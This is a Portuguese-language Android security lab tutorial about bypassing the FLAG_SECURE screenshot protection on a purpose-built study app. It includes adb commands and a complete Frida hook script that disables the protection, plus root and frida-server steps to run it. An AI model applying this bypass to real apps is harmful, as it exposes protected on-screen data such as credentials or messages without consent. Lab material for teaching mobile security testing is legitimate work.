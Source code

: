 # Secure App (Flag Secure)

## Introdução

O objetivo deste laboratório é colocar em prática os conceitos destacados na seção de proteções [Flag Secure](https://docs.kirito.com.br/mobile/secure_flag). Ao longo deste laboratório, investigaremos de perto o impacto da vulnerabilidade da secure flag no contexto do sistema operacional Android. Você terá a oportunidade de observar como a falta de segurança pode comprometer a integridade e a confidencialidade dos dados em um dispositivo Android.

Ressaltamos que este laboratório destina-se exclusivamente a fins educacionais e para conscientização sobre as ameaças potenciais relacionadas à segurança do Android. Ao explorar essa vulnerabilidade em um ambiente controlado, esperamos fornecer uma compreensão mais aprofundada dos desafios enfrentados pelos desenvolvedores e usuários na proteção de dispositivos Android contra ataques maliciosos.

## Requisitos

Para a realização deste laboratório, foi desenvolvido um aplicativo específico para estudos, que pode ser adquirido no seguinte link:

[Secure App](https://github.com/kiritorce/mobile-hacking-laboratory)

Antes de prosseguir com os testes, certifique-se de que o dispositivo esteja configurado com o API Level 30 para garantir o correto funcionamento de todas as etapas do laboratório.

## Instalação e fluxo padrão

Antes de realizar qualquer processo de root no dispositivo ou iniciar o servidor Frida, é importante entender o comportamento padrão do aplicativo e verificar suas funcionalidades.

1. Instale o aplicativo a ser testado e verifique o seu funcionamento normal.

```jsx
adb install secureapp.apk
```

![Lab01-SecureApp_img1](/mobile/labs_mobile/lab01_secureapp/flag_img_1.png)

2. Tente tirar uma screenshot da tela ou colocar o aplicativo em segundo plano (background).

```jsx
adb shell screencap -p /sdcard/screen.png
```

```jsx
adb exec-out screencap -p > screen.png
```

![Lab01-SecureApp_img2](/mobile/labs_mobile/lab01_secureapp/flag_img_2.png)

Verifique que a captura é exibida com 0 bytes e as informações desaparecem ao serem enviadas para o plano de fundo, o que indica que a proteção **`FLAG_SECURE`** está operando adequadamente.

> A implementação da configuração FLAG_SECURE não é tão eficiente quanto gostaríamos, pois pode ser facilmente burlada com o uso de scripts encontrados na internet. A seguir, serão apresentadas formas de realizar essa ação utilizando o Frida Tools. Vamos utilizar o script padrão do Frida, que pode ser encontrado no seguinte repositório do GitHub: [FRIDA script for bypassing Android FLAG_SECURE](https://gist.github.com/su-vikas/36410f67c9e0127961ae344010c4c0ef)

## Script Flag Secure Bypass

```js
Java.perform(function() {
    var surface_view = Java.use('android.view.SurfaceView');

    var set_secure = surface_view.setSecure.overload('boolean');

    set_secure.implementation = function(flag){
        console.log("setSecure() flag called with args: " + flag); 
        set_secure.call(false);
    };

    var window = Java.use('android.view.Window');
    var set_flags = window.setFlags.overload('int', 'int');

    var window_manager = Java.use('android.view.WindowManager');
    var layout_params = Java.use('android.view.WindowManager$LayoutParams');

    set_flags.implementation = function(flags, mask){
        //console.log(Object.getOwnPropertyNames(window.__proto__).join('\n'));
        console.log("flag secure: " + layout_params.FLAG_SECURE.value);

        console.log("before setflags called  flags:  "+ flags);
        flags =(flags.value & ~layout_params.FLAG_SECURE.value);
        console.log("after setflags called  flags:  "+ flags);

        set_flags.call(this, flags, mask);
    };
});
```

## Processo de Bypass

1. Após entender o funcionamento normal do aplicativo e identificar a proteção, é necessário fazer o root do dispositivo e iniciar o servidor Frida.

```jsx
adb root
adb shell /data/local/tmp/frida-server-16.0.10-android-arm64 &
```

2. A partir desse ponto, basta anexar o script ao aplicativo e realizar a captura de tela.

```jsx
frida -U -f com.secureapp -l secureflag.js --pause
```

![Lab01-SecureApp_img3](/mobile/labs_mobile/lab01_secureapp/flag_img_3.png)

![Lab01-SecureApp_img4](/mobile/labs_mobile/lab01_secureapp/flag_img_4.png)
